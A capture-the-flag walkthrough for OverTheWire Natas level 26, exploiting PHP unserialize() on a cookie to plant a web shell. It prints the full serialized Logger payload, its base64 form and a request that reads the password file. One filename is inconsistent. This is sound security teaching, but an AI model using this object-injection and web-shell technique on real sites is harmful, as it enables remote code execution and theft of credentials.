




# OverTheWire - Natas - Level 26

[OverTheWire](https://overthewire.org) offers a series of "wargames" that teach
security skills. From their website:

> Natas teaches the basics of serverside web-security.

## Challenge Overview

After discovering the `natas26` password in the previous challenge, it can be
used to log into http://natas26.natas.labs.overthewire.org:



## Initial Analysis

This challenge looks different - four input fields for coordinates labelled
`X1`, `Y1`, `X2`, and `Y2`. There's a `DRAW!` button that probably draws
something.

It also has a `View sourcecode` link that seems like a hint.

## Approach Strategy

1. Click the `View sourcecode` link
1. Figure it out from there

## Step-by-Step Solution

Clicking the `View sourcecode` link shows the source code for the web page. It
is too much code for a useful screenshot, but it can be broken down by function.
Some formatting and comments make it easier to understand.

### Main Code

The main code for the page looks like:

```php
session_start();

// This is interesting - a cookie is being set! The cookie is under user control
// so it will be important to see if it is used insecurely somewhere.
if (array_key_exists("drawing", $_COOKIE) ||
    (array_key_exists("x1", $_GET) && array_key_exists("y1", $_GET) &&
    array_key_exists("x2", $_GET) && array_key_exists("y2", $_GET))) {
  // This is also interesting - there is an "img" directory that is being used
  // for something. Perhaps it can also be used for unexpected things.
  $imgfile="img/natas26_" . session_id() .".png";

  // The next three functions also need to be examined in detail.
  drawImage($imgfile);
  showImage($imgfile);
  storeData();
}
```

### `drawImage`

One of the functions called by the main code is `drawImage`. Taking a look at
it, with added formatting and comments:

```php
function drawImage($filename) {
  // Defined by the GD graphics library in PHP - assume it's secure.
  $img = imagecreatetruecolor(400, 300);

  // Defined below. This is the only part of this function that doesn't use PHP
  // libraries - assume the builtin stuff is secure and it the custom code on
  // the page that has problems.
  drawFromUserdata($img);

  // Defined by the GD graphics library in PHP - assume it's secure.
  imagepng($img, $filename);
  imagedestroy($img);
}

function drawFromUserdata($img) {
  if (array_key_exists("x1", $_GET) && array_key_exists("y1", $_GET) &&
      array_key_exists("x2", $_GET) && array_key_exists("y2", $_GET)) {
    // Defined by the GD graphics library in PHP - assume it's secure.
    $color = imagecolorallocate($img, 0xff, 0x12, 0x1c);
    imageline($img, $_GET["x1"], $_GET["y1"],
        $_GET["x2"], $_GET["y2"], $color);
  }

  // The cookie is user-controlled and this could be interesting.
  if (array_key_exists("drawing", $_COOKIE)) {
    // OK, here it is. Unserializing the cookie could be the clue to this
    // challenge!
    $drawing = unserialize(base64_decode($_COOKIE["drawing"]));

    if ($drawing) {
      foreach ($drawing as $object) {
        if (array_key_exists("x1", $object) &&
            array_key_exists("y1", $object) &&
            array_key_exists("x2", $object) &&
            array_key_exists("y2", $object)) {
          // Defined by the GD graphics library in PHP - assume it's secure.
          $color=imagecolorallocate($img,0xff,0x12,0x1c);
          imageline($img, $object["x1"], $object["y1"],
              $object["x2"], $object["y2"], $color);
        }
      }
    }
  }
}
```

In case you missed it, there is some code that does:

```php
unserialize(base64_decode($_COOKIE["drawing"]));
```

and this is the key to the challenge. Unserializing user-controlled data can be
a really insecure thing to do.

#### Background: Serialization

The `serialization` process takes data and turns it into something that can be
put into storage or transmitted over a network. The opposite process,
`deserialization`, converts the serialized information back into data that can
be used in code.

In this code, some user input is being serialized and stored in a cookie. The
cookie is later deserialized to retrieve the data.

### `Logger` class

There is a class called `Logger` in the page's code, but it's very interesting
that this class is never used by the code. While it's not unheard of to have
stale code included in production sites, when it's on a challenge page it is
typically a very big hint.

```php
class Logger {
  private $logFile;
  private $initMsg;
  private $exitMsg;

  function __construct($file){
    // Code removed - not important for this challenge.
  }

  function log($msg) {
    // Code removed - not important for this challenge.
  }

  // The __destruct function is very important for deserialization, as it will
  // be run on the object.
  function __destruct() {
    // Open the file named in "logFile" for appending.
    $fd = fopen($this->logFile, "a+");

    // Write the "exitMsg" to the file.
    fwrite($fd, $this->exitMsg);

    // Close the file descriptor.
    fclose($fd);
  }
}
```

Very interesting that the `__destruct` function is defined in this class, as it
can be used to solve the challenge.

## The Solution

There are two parts to this solution:

1. Find a way to exploit the deserialization insecurity
2. Run the exploit to retrieve the `natas27` password

### 1. Exploit Deserialization

As mentioned above, objects that are deserialized in PHP will eventually run the
`__destruct` method of the class. In this challenge the `__destruct` method
contains:

```php
    $fd = fopen($this->logFile, "a+");
    fwrite($fd, $this->exitMsg);
```

Since these variables are controlled in the serialized data, then the exploit is
to set `logFile` to something that is controlled, and `exitMsg` to a remote
code execution script, such as:

```php
    $fd = fopen('img/ehi_exploit.php', "a+");
    fwrite($fd, '<?php system($_GET["cmd"]); ?>');
```

Using a hopefully-unique filename, the `system` command allows playing around
with the `cmd` command that is executed.

The hard part is going to be getting these values into the serialized data. To
explain it first start with the end value:

```
O:6:"Logger":3:{s:15:"\0Logger\0logFile";s:19:"img/ehi_exploit.php";s:15:"\0Logger\0initMsg";s:0:"";s:15:"\0Logger\0exitMsg";s:30:"<?php system(
$_GET["cmd"]); ?>";}
```

This is far from straightforward, but understanding the serialization process of
PHP is a good knowledge to have. To break it down start with `O:6:"Logger":`

- `O` - signify that this is an object
- `:` - separator
- `6` - the name of the object's class is 6 characters long
- `:` - separator
- `"Logger"` - the six character class name, in double quotes
- `:` - separator

So far so good - the serialized data says that there is one object, and it comes
from the class named `Logger`. The next chunk is `3:`, which says that there
are three data values that belong to the object, and the `{` is the start of
those values:

- `s:15:"\0Logger\0logFile";` - the first data name is a 15 character string
  that is for the private member variable (signified by the nulls `\0`) and is
  the class `Logger` variable `logFile`
- `s:19:"img/ehi_exploit.php";` - the first data value is a 19 character string
  with the value `img/ehi_exploit.php`
- `s:15:"\0Logger\0initMsg";` - the second data name is a 15 character string
  that is for the private member variable (signified by the nulls `\0`) and is
  the class `Logger` variable `initMsg`
- `s:0:"";` - the second data value is an empty (zero length) string
- `s:15:"\0Logger\0exitMsg";` - the third data name is a 15 character string
  that is for the private member variable (signified by the nulls `\0`) and is
  the class `Logger` variable `exitMsg`
- `s:30:"<?php system($_GET["cmd"]); ?>";` - the third data value is a 30
  character string with the value `<?php system($_GET["cmd"]); ?>`

That's a lot to understand! However, once the format is understood it is fairly
easy to manipulate the serialized data to be whatever is needed for the
solution.

That's the serialized payload that needs to be injected into the cookie. First
it needs to be encoded using `base64`:

```
echo -e 'O:6:"Logger":3:{s:15:"\0Logger\0logFile";s:19:"img/ehi_exploit.php";s:15:"\0Logger\0initMsg";s:0:"";s:15:"\0Logger\0exitMsg";s:30:"<?php system($_GET["cmd"]); ?>";}' | base64
Tzo2OiJMb2dnZXIiOjM6e3M6MTU6IgBMb2dnZXIAbG9nRmlsZSI7czoxOToiaW1nL2VoaV9leHBs
b2l0LnBocCI7czoxNToiAExvZ2dlcgBpbml0TXNnIjtzOjA6IiI7czoxNToiAExvZ2dlcgBleGl0
TXNnIjtzOjMwOiI8P3BocCBzeXN0ZW0oJF9HRVRbImNtZCJdKTsgPz4iO30K
```

In the browser, create the cookie by drawing any line, such as `(0, 0)` to
`(100, 100)`:



Notice that in the Developer Tools the cookie `drawing` is now set. It can also
be changed! The next step is to double click the cookie and paste in the
`base64` encoded data for the `Logger` object.

Now that the serialized object is stored in the cookie, all that's needed to
deserialize it is to click the `DRAW!` button again:



Hooray! There are some errors about the code expecting an array of integers, but
the `Logger` object has been successfully deserialized. In theory the file
`img/4bbc2ef8-73e4-4f61-9ebb-0590af570f74.php` now exists, and it will run any
`cmd` parameter on the command line.

### 2. Using the Exploit

The final step is to use the deployed file to print the password for `natas27`.
In a new browser tab the URL is `http://natas26.natas.labs.overthewire.org/img/ehi_exploit.php?cmd=cat%20/etc/natas_webpass/natas27`

Hooray!



Note that the password has been pixelated, and for some reason it was printed
twice (the `Logger` uses "append" mode to write to the file, so perhaps the dtor
was run twice).

## Key Takeaways

- As always, user input should never be trusted. There are many ways that a user
  can manipulate data
- Be careful about deserializing data that is controlled by the user

## Beyond the Challenge

The solution described above really goes into details about the serialization
format used by PHP. A simpler solution would have been to copy the `Logger` code
and then create a `Logger` object with the needed parameters and serialize it.
However, knowing the details might be useful some day!
